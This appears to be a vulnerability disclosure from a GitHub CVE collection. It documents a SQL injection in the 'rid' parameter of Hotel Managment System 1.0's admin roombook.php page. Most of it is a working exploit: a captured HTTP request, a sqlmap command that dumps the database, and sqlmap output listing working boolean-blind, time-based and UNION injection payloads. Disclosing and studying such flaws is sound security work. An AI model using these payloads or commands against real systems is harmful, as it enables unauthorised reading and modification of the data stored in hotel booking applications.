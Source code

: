 # Hotel Managment System - SQL Injection-1
+ *Exploit Title:* Hotel Managment System - SQL Injection-1
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number


## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'rid' parameter in Hotel/admin/roombook.php?rid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/home.php
+ Click Room Booking Section and click 'action' button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/roombook.php?rid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'rid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p rid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: rid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: rid=2' AND 7394=7394-- Yhwg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rid=2' AND (SELECT 3298 FROM (SELECT(SLEEP(5)))AFBF)-- ADNe

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: rid=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71716a6271,0x674c4e4f475061485664626e5363417a72717a626d5841694a4a5245594d59666c674e627342624a,0x7171787071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[18:52:45] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:52:45] [INFO] fetching current database
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 025337](https://github.com/tubakvgc/CVEs/assets/74067343/f02d04b2-f556-451f-8533-3862bfb1bfcf)



  

